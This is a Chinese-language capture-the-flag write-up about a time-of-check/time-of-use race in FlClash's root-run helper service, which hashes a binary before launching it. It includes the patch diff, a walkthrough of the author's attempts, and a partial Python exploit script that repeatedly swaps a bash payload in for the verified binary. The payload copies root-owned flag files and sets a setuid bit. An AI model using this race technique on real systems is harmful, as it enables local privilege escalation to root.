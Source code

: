 ```rust
+    //}
     stop();
     let mut process = PROCESS.lock().unwrap();
-    match Command::new(&start_params.path)
+    match Command::new("/root/secure/FlClashCore")
         .stderr(Stdio::piped())
         .arg(&start_params.arg)
         .spawn()
```

### flag1
我们可以先看看修复的内容是什么。修复的文件在helper的`hub.rs`中，这个rust写成的helper是一个后台一直运行的服务，可以控制Clash内核的启动和关闭。其原理大致是和在一个tcp端口（47890）起一个HTTP服务，接收到不同请求时，调用系统命令启动进程。为了考虑不同系统、设备上安装目录不同的情况，传入的参数需要包括FlClashCore的路径。

但是，很显然helper是一个以root运行的程序。如果随便一个程序都能发请求到本地TCP端口，那很容易造成提权（甚至XSS转RCE+提权这种极其恶劣的连段）。因此，FlClashCore的处理就是，执行文件前先用sha256校验程序的哈希，只有与相同版本helper内硬编码的FlClashCore的hash一致，才会启动程序。但既然xmcp把这段注释掉了，换成了一个固定路径，那必然是有他的道理。

很显然，sha256碰撞一个特定哈希不是2025年的计算设备能够实现的任务。一般来说，这种看上去严丝合缝的逻辑通常要考虑侧信道、时间攻击等。这个题稍加审计就会发现有严重的TOCTOU漏洞，如果在校验程序时该路径下是FlClashCore，但在执行的时候被换掉了，就会造成一个恶劣的RCE提权。所以逻辑上，我们需要写一段提权脚本，然后不断地交换FlClashCore程序本体和提权脚本，触发TOCTOU。

具体实现的时候，我一开始没想明白，尝试写让另一个线程无限循环交替把原程序和提权脚本写入同一个文件里，但后来发现这种做法是错误的，因为FlClashCore本身有几百MB，它写入需要很长时间，并且在此期间如果计算SHA256实际上是以FlClashCore的前半部分内容计算，结果是错误的。后来我意识到这一点，打算换成软链接的link和Unlink交替切换，这样就省去了IO时间。然而，由于不明原因，这种情况下SHA256连文件本身都无法打开，hash都算不出来。最后我才意识到，几百MB的程序计算SHA256需要很长时间，我可以手动sleep控制切换时机。

提权脚本本体包括cp复制和suid两手准备，都生效了。



```py
import requests
import threading
import shutil
import os
import time

def init_file():
    # soft link cannot be recognized by service hub
    # os.system(
    #     "ln -sf /tmp/FlClashCore /tmp/FlClashCore_nobody",
    # )
    shutil.copyfile("/tmp/FlClashCore", "/tmp/FlClashCore_nobody")
    os.chmod("/tmp/FlClashCore_nobody", 0o777)

    with open("/tmp/getflag", "w") as f:
        f.write(
            "#!/bin/bash\ncat /root/flag_* > /tmp/flag\nchown root /tmp/getflag\nchmod +s /tmp/getflag\n"
        )
    os.chmod("/tmp/getflag", 0o777)


def swap_file():
    while True:
        # shutil.copyfile("/tmp/getflag", "/tmp/FlClashCore_nobody")
        os.system("unlink /tmp/FlClashCore_nobody")
        os.system("cp /tmp/getflag /tmp/FlClashCore_nobody")
        # os.system(
        #     "ln -sf /tmp/getflag /tmp/FlClashCore_nobody",
        # )
        print("swapped to getflag")

        # os.system(
        #     "ln -sf /tmp/FlClashCore /tmp/FlClashCore_nobody",
        # )
```